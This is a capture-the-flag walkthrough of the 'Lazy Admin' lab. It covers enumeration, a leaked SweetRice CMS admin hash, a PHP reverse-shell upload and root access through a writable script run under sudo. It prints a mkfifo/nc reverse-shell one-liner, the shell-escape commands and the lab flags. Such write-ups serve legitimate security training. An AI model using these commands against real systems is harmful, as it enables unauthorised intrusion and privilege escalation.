

# Lazy Admin

## Introduction

This challenge requires us to get the user flag and the root flag.



## Open Port Enumeration

Using RustScan, we can locate all opening ports

```bash
└─$ rustscan -a lazyadmin.thm --ulimit 5000 -- -A
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:80
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X|3.X (96%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:3 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 3.10 - 3.13 (94%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

From the above, we know there are two opening ports:

- Port 22: SSH (`OpenSSH 7.2p2 Ubuntu 4ubuntu2.8`)
- Port 80: HTTP (`Apache httpd 2.4.18 ((Ubuntu))`)

## Web Content Enumeration

The Apache2 Ubuntu Default page is shown when we first arrive on the web page


Use `ffuf` to perform enumeration, and we can see there is a `content` endpoint.

```bash
└─$ ffuf -u http://lazyadmin.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://lazyadmin.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 4917ms]
content                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 105ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 100ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 104ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 104ms]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 103ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 103ms]
:: Progress: [4614/4614] :: Job [1/1] :: 389 req/sec :: Duration: [0:00:20] :: Errors: 0 ::

```

## SweetRice CMS Exploitation

The `content` endpoint reveals that the web server is using SweetRice CMS.


We will perform another enumeration on the `content`.

```bash
└─$ ffuf -u http://lazyadmin.thm/content/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://lazyadmin.thm/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 113ms]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 102ms]
                        [Status: 200, Size: 2199, Words: 109, Lines: 36, Duration: 3094ms]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 106ms]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 102ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4092ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5102ms]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 102ms]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 105ms]
index.php               [Status: 200, Size: 2199, Words: 109, Lines: 36, Duration: 111ms]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 102ms]
:: Progress: [4614/4614] :: Job [1/1] :: 383 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

The `/content/_themes` and `/content/attachment` directories are empty.

`/content/as` is the login page


`/content/inc` shows many files


`/content/inc/latest.txt` reveals the version number

```bash
1.5.1
```

Using `searchsploit`, we can find that there are many exploits to use 

```bash
└─$ searchsploit sweetrice 1.5.1
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                                                                                                                                 | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                                                                   | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                                                                       | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                                                              | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                                                                         | php/webapps/40700.html
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## MySQL Back Up

Reading the backup Disclosure txt, I realized I missed the `mysql_backup` directory early on


Reading it will reveal the account `manager` and the password hash `42f749ade7f9e195bf475f37a44cafcb`

```bash
 14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

Use Hashes.com, we can obtain the password `Password123`


With this, we can login to the CMS


## Reverse Shell

We can then use the Arbitrary File Upload exploit to upload a [PHP reverse shell]([https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).

The script will ask us for the URL, username, password, and the name of the file.

```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : lazyadmin.thm/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : r_shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://lazyadmin.thm/content/attachment/r_shell.php

```

The upload seems successful, but when we go to the URL, we found that the file does not upload successfully


To verify, we can also see that the attachment list is empty in the CMS.


This might due to `.php` extension is explicitly banned. So in the second time, I upload a `.phtml` file instead and it worked


Now we can use a nc listener and get the user flag

```bash
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xx] from (UNKNOWN) [xx.xx.xxx.xxx] 46644
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 17:30:40 up  1:54,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
$ ls         
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ cd /home
$ ls
itguy
$ cd itguy
$ ls 
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

User flag: `THM{63e5bce9271952aad1113b6f1ac28a07}`

## Privilege Escalation

When I check our sudo privileges, I found we have several privileges

```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

I upgraded my shell to make things much easier

```bash
$ export TERM=xterm
$ python -c 'import pty; pty.spawn("/bin/bash")'

```

I saw perl can actually be [exploited]([https://gtfobins.org/gtfobins/perl/](https://gtfobins.org/gtfobins/perl/)), so I tried to launch a privileged shell directly, but failed.

```bash
www-data@THM-Chal:/$ sudo perl -e 'exec "/bin/sh"'
sudo perl -e 'exec "/bin/sh"'
[sudo] password for www-data:
```

Then I looked at `backup.pl`, the Perl backup script. it will execute `/etc/copy.sh`

```bash
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

It is not executed by crontab periodically.

```bash
www-data@THM-Chal:/$ cat /etc/crontab| grep backup
cat /etc/crontab| grep backup
www-data@THM-Chal:/$ 
```

And this file is unwritable by us.

```bash
www-data@THM-Chal:~$ ls -la backup.pl
ls -la backup.pl
-rw-r--r-x 1 root root 47 nov 29  2019 backup.pl
```

What we can do is to see the `/etc/copy.sh`, and it seems to be a reverse shell

```bash
www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

```

Luckily for us, we can modify the `copy.sh`

```bash
www-data@THM-Chal:/etc$ ls -la copy.sh
ls -la copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 copy.sh
```

Instead of modifying the IP of the script, we can just use `/bin/bash -i` to open a privileged shell

```bash
www-data@THM-Chal:/etc$ echo '/bin/bash -i' > copy.sh
echo '/bin/bash -i' > copy.sh
www-data@THM-Chal:/etc$ sudo perl /home/itguy/backup.pl
sudo perl /home/itguy/backup.pl
root@THM-Chal:/etc# 
```

We can finally read the root flag.

```bash
root@THM-Chal:/etc# cd /root
cd /root
root@THM-Chal:~# ls
ls
root.txt
root@THM-Chal:~# cat root.txt
cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

Root Flag: `THM{6637f41d0177b6f37cb20d775124699f}`
